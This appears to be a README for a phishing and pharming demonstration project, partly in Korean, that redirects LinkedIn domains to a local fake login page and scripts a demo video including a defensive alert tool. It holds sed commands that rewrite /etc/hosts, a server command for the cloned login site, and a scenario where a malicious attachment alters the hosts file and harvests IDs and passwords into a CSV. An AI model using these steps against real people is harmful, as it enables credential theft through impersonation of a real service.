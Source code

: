 # Hacking
## Requirement
1. django 설치
2. python 설치

## DNS Fishing Code
```
sudo sed -i '1i127.0.0.1 linkedin.co.kr' /etc/hosts
sudo sed -i '1i127.0.0.1 linkedin.com' /etc/hosts
sudo sed -i '1i127.0.0.1 www.linkedin.com' /etc/hosts
sudo sed -i '1i127.0.0.1 www.linkedin.co.kr' /etc/hosts
sudo sed -i '1i127.0.0.1 kr.linkedin.co.kr' /etc/hosts
```

## Pharming WebSite Execution
```
cd ${Clone Path}
python manage.py runserver 127.0.0.1:80
```

## Modifiy host file
Refer to ./shellcode/README file


## Access Link
linkedin.co.kr/login




# 영상촬영 시나리오
1. 유지보수업체 임직원 PC 메일(첨부파일) 수신
=> /etc/hosts 파일 수정 전
=> 첨부파일 실행
=> PDF OPEN => /etc/hosts 파일 수정된 모습

설명 : 윈도우 동작 실행파일 또한 존재

2. 유지보수업체 임직원 메일(링크) 수신
CSV Display(Before)
링크 클릭
ID PW 입력
CSV Display(After)

설명 : DNS Spoofing 대신 /etc/hosts 수정

3. 방어도구 ON
유지보수업체 임직원 메일 수신 시 문자메세지 팝업 이미지
[Accept 버튼]

근무시간(09~18시) 설정
[Reject 버튼] 클릭
=> 관리자에게 메일 수신 X

근무시간 22시 설정
[Reject 버튼]
=> 관리자에게 메일 수신되는 모습 Display


SimpleScreenRecorder
